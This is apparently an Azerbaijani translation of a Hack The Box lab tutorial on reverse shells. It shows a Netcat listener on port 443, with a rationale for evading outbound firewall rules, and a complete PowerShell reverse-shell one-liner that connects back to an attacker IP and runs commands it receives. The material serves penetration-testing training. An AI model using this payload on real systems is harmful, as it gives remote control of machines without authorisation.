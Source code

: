 ```
nijatmansimov@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

Bu dəfə dinləyicimiz ilə onu **ümumi porta (443)** bağlayırıq; bu port adətən **HTTPS** bağlantıları üçündür. Biz bu cür ümumi portlardan istifadə etmək istəyə bilərik, çünki dinləyicimizə qoşulmağı başlatdığımızda, onun ƏS firewallu və şəbəkə səviyyəsində **gedən** (outbound) zaman bloklanmamasına əmin olmaq istəyirik. Bir çox tətbiq və təşkilat iş günü ərzində müxtəlif vebsaytlara daxil olmaq üçün HTTPS-ə güvəndiyindən, hər hansı bir təhlükəsizlik komandasının 443 gedən portunu blokladığını görmək nadir hallarda olar. Bununla belə, dərin paket yoxlaması və Layer 7 görünürlüyü qabiliyyətinə malik olan bir firewall, tərs şellin ümumi portda xaricə getdiyini aşkar edib dayandıra bilər, çünki o, yalnız IP ünvanı və portu deyil, həm də şəbəkə paketlərinin məzmununu yoxlayır. Ətraflı firewall yayınması (evasion) bu modulun əhatə dairəsindən kənardır, buna görə də modul boyunca, eləcə də sondakı xüsusi bölmədə aşkarlama və yayınma texnikalarına yalnız qısaca toxunacağıq.

Windows hədəfi işə salındıqdan sonra, RDP istifadə edərək ona qoşulaq.

Windows tərəfdə tərs şelli başlatmaq üçün Netcat istifadə edilə bilər, lakin biz sistemdə hansı tətbiqlərin mövcud olduğuna diqqət yetirməliyik. Netcat Windows sistemlərinə xas (native) deyil, buna görə də Windows tərəfində onu alətimiz kimi istifadə etməyə güvənmək etibarlı olmaya bilər. Daha sonrakı bir bölmədə görəcəyik ki, Windows-da Netcat istifadə etmək üçün biz Netcat ikilik faylını (binary) hədəfə köçürməliyik, bu da başlanğıcdan fayl yükləmə imkanlarımız olmadıqda çətin ola bilər. Beləliklə, giriş əldə etməyə çalışdığımız hədəfə xas olan (yaşadığı yerdən istifadə edən, **living off the land**) istənilən alətlərdən istifadə etmək idealdır.

**Hədəfdə hansı tətbiqlər və şell dilləri yerləşir?**

Bu, tərs şell qurmağa çalışdığımız hər an soruşulmalı əla bir sualdır. Gəlin, bu sadə tərs şelli qurmaq üçün **command prompt** və **PowerShell** istifadə edək. Bu məqamı izah etmək üçün standart bir PowerShell tərs şell bir-sətirlik əmrindən (one-liner) istifadə edə bilərik.

Windows hədəfində, bir command prompt açın və bu əmri kopyalayıb yapışdırın:

### Müştəri (Hədəf)

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**Qeyd:** Əgər **Pwnbox** istifadə edirsinizsə, unutmayın ki, bəzi brauzerlər əmri birbaşa hədəfin CLI-nə yapışdırmaq üçün **Mübadilə Buferindən (Clipboard)** istifadə edərkən o qədər də problemsiz işləməyə bilər. Bu hallarda, hədəfdə Notepaddan istifadə edərək əmri Notepada yapışdırmaq, sonra isə hədəfin içindən kopyalayıb yapışdırmaq daha yaxşı olar.

Əmrə diqqətlə baxın və hücum kompüterimizlə tərs şell qurmağımıza imkan verməsi üçün nəyi dəyişməli olduğumuzu düşünün. Bu PowerShell kodu həm də **şell kodu** (shell code) və ya bizim **faydalı yükümüz** adlandırıla bilər. Nümayiş məqsədləri üçün hədəfə tam nəzarət etdiyimizi nəzərə alsaq, bu faydalı yükü Windows sisteminə çatdırmaq olduqca sadə idi. Bu modul irəlilədikcə, faydalı yükü hədəflərə çatdırmaqda çətinliyin artdığını görəcəyik.
